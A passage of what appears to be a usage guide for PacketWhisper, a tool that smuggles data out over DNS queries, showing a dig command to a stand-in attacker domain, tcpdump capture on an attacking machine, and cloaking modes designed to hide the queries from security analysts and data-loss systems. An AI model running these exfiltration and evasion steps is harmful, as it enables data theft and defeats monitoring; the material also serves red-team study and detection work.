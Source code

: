 ```bash
# After encoding, PacketWhisper will show the command to run
# Example:
dig +short qnndymzemeiwwnw.google-public-dns-a.shadows.example.com @8.8.8.8
```

3. **Capturing and decoding the DNS traffic**:

```bash
# On your attacking machine:
# Capture DNS traffic:
tcpdump -i eth0 -w capture.pcap udp port 53

# Decode using PacketWhisper:
python3 packetWhisper.py
# Select Option 2: Decode data from capture file
# Select the capture file
```

### Configuration Options

PacketWhisper offers several configurations to optimize your exfiltration:

#### 1. Cloaking Modes

PacketWhisper provides various text-based cloaking options to help your DNS queries blend into normal traffic:

```bash
# Available cloaking modes:
1. Basic Base64 Encoding
2. Hex Encoding with Special Char Substitution  
3. Hex Encoding with Vulnerable Parameter Cloaking
4. Normal Security Scan Results
5. Web Vulnerability Scan Results
6. HTTP Session Capture
7. Windows Directory Listing
8. Linux Directory Listing
```

The more advanced cloaking options (4-8) are designed to make the DNS queries appear as legitimate traffic to security analysts reviewing logs.

#### 2. DNS Transfer Modes

```bash
# Transfer mode options:
1. Direct DNS Queries (dig)
2. Direct DNS Queries as One-Liner (single command line)
3. DNS Server Query via Copy/Paste
```

For highly restricted environments, the Copy/Paste mode allows transferring data even when you can't execute commands but have access to a DNS lookup tool.

### Example: Bypassing DLP Systems
